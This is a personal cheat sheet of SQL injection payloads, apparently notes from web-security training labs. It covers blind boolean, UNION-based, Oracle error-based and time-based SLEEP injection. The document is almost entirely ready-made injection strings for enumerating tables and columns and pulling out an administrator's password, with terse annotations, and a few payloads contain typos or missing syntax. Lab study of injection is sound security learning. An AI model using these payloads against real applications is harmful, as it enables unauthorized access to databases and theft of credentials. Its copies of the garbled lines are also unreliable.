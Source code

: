 ### blind
- Change SQL Command in the trackinID + test
- Table exists: ' AND (SELECT 'a' FROM users LIMIT 1)='a;
- Size of string: ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;==> payload type number to find 1 until n
  - admin' AND length((SELECT password from users where username='admin'))==37-- -
  
- Getting data string per string:
  - SELECT column FROM table_name LIMIT 0,1-- - //
    - LIMIT start,from_total ==> LIMIT 0,1 = first, from total 1 || LIMIT 0,2 start 0 from total 2
  - SUBSTRING((SELECT column FROM table_name LIMIT 0,1)0,1)

### binary
- like a% = starting with a
- Find DB name: ' UNION SELECT, NULL,NULL,NULL where database() like '%a' 
- Find table name: ' UNION SELECT NULL,NULL,NULL FROM information_schema.tables WHERE **table_schema**='name_db' AND **table_name** like '[]%';--
- find columns 1: ' UNION SELECT NULL,NULL,NULL FROM **information_schema.colums** WHERE **table_name**='name table' AND **column_name** like '[]%';--
- find columns 2: ' UNION SELECT NULL,NULL,[sleep(4)]|NULL FROM **information_schema.colums** WHERE **table_name**='name table' AND **column_name** like '[]%' AND column_name!='found 1';--
- find content: ' UNION SELECT NULL,NULL,NULL FROM **table_name** where **column_1** like 'a%';--

- individual charachter + size
  - ' AND (SELECT 'a' FROM [table]  WHERE [column]='value' AND LENGTH(value)>§1§)='a;==> payload type number to find 1 until n
  -(SQLITE): [known_value]' AND length((SELECT [column] FROM [table] WHERE [column]='value'))==37-- -
 - find substring SQLITE: admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -

### Provoking errors
- Oracle
  - xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
    - case = false  ==> no error produced
    - TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' = FALSE ==> execute after ELSE query
      - Condition = TRUE ==> forced error 1/0
      - Condition = FALSE ==> goes to 2nd question and asks if the info about the db is correct

  - xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
    - case = true ==> error will be produced
    - TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' = TRUE ==> produce error that is processed by the query

### Time
- with sleep() ==> success if the function is executed
- admin123' UNION SELECT SLEEP(5),1,x,y,z;--
- similar to blind
- admin123' UNION SELECT 1,SLEEP(5) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'password%' and COLUMN_NAME!='username';--
  